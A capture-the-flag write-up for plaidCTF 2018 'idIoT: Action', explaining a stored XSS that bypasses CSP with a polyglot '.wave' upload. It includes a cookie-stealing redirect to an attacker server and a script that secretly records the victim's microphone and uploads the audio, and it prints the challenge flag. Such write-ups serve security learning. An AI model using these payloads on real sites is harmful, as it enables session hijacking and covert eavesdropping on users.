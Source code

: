 # idIoT: Action
*plaidCTF 2018 Web 200*


## Problem

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT. 

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or here after you make an account. 

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests? 

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

## Look up
We can write a new clip with out title, description and some audio. Audio can be uploaded, or can be recorded using our browser. After some simpletest, we can find 'Description' field allows us `HTML Tag Injection`, but not `<script>` becuase of its CSP.

![Tag injected](https://i.imgur.com/F4fv0PF.png)
![CSP](https://i.imgur.com/hvCZdyr.png)

Since CSP exists `script-src 'self'`, XSS shoud be able by uploading some scripts to clip and including it.

## Weak audio check and MIME type

Server refuses the fiel when its extension is not ended with `.wav/.wave/.mp3/.ogg/.web`. But it doesn't seems strictly check it. We can upload some corrupted audio files like this one!
![Is this real wav?](https://i.imgur.com/15mYPVI.png)

It considered as normal wave file since its magic number, but it also can be translated as following javascript.

```javascript
RIFF=1;
alert('test');
```

I've tried script injection with .wav and .mp3 files, but both of them didn't work. It couldn't pass the MIME type check. ![mpeg MIME is not executable](https://i.imgur.com/5wBeF6O.png)

So I googled about it then I can find a document that lists [default apache MIME types](https://svn.apache.org/repos/asf/httpd/httpd/trunk/docs/conf/mime.types)
![What is wave??](https://i.imgur.com/c5X5Dup.png)

We can see apache doesn't recognize `.wave` extension as `audio/*`, thus including `.wave` file like following allows to script execution.

```html
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

## Get a flag
Two steps required to get a flag.

* Show admin's clips
* Record a response of Google Home.  

### Show clips of admin
Since we know how to execute javascript, stealing is easy. Various way to steal admin's clip.

```javascript
location.href = <your server> + "?ck=" + "document.cookie"
```

After we change our session to admin's session, we can see two clips.

First clip is

	Title; Thoughts on Google Home
	
	I got a Google Home recently, and I've been having a lot of fun with it!
		
and next one is
 
	Title; Nostalgia
	
	Has anyone else played Toaster Wars?
	Share me clips with 'spatulate' in the description and I'll give them a listen!
	
By the audio clip of first clip I mentioned, if we say "Hey Google, what is a flag?" to Google Home, it will answer the flag. So the next thing to do is record audio "Hey Google, what is a flag?" and write a description as 'spatulate' to Google Home listen it.

### Record from admin's account
We already know how to get a flag. But it has a problem. We can guess Google Home **speaks** the flag, then how can we get it? `js/main.js` has the answer. `main.js` has implementations to deal with this problem. 

![record, submit](https://i.imgur.com/if9YeMI.png)

If we reconstruct javascripts using those implementations of record and submit, we can write a new clip! But admin's account seems can't write a new clip, so we have to write it to our own account by chainging session.

So final payload is

Description field:

```html
spatulate
<form action="create.php" method="post" enctype="multipart/form-data" id="upload-form">
	<input type="text" name="title" value="answer"/>
	<input type="text" name="description" value="answer"/>
	<audio id="record-playback" controls></audio>
	<input type="submit" name="submit" value="submit" />
</form>
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

Script in .wave:

```javascript
navigator.mediaDevices.getUserMedia({ audio: true })
	.then((stream) => {
	mediaRecorder = new MediaRecorder(stream, { mimeType: 'audio/webm' });
	mediaRecorder.start();
	let chunks = [];
	mediaRecorder.addEventListener("dataavailable", (e) => {th
		chunks.push(e.data);
		console.log(e.data);
	});
	mediaRecorder.addEventListener("stop", () => {
		mediaBlob = new Blob(chunks);
		document.cookie = "PHPSESSID=v3368khvdmn5pl8ea6qh5g3ke3";
	
		let uploadForm = document.getElementById("upload-form");
		let formData = new FormData(uploadForm);
	   	formData.append("audiofile", mediaBlob, "audio.webm");
	   	let f = fetch("create.php", {
			method: "POST",
			body: formData,
			credentials: "same-origin"
		});	
	})
	setTimeout(function() {
		mediaRecorder.stop();
	}, 15000);
});
```	

###Final

Injected script will write a new clip named 'answer' with an audio reading flag :D

The flag is `PCTF{not_so_smart}`

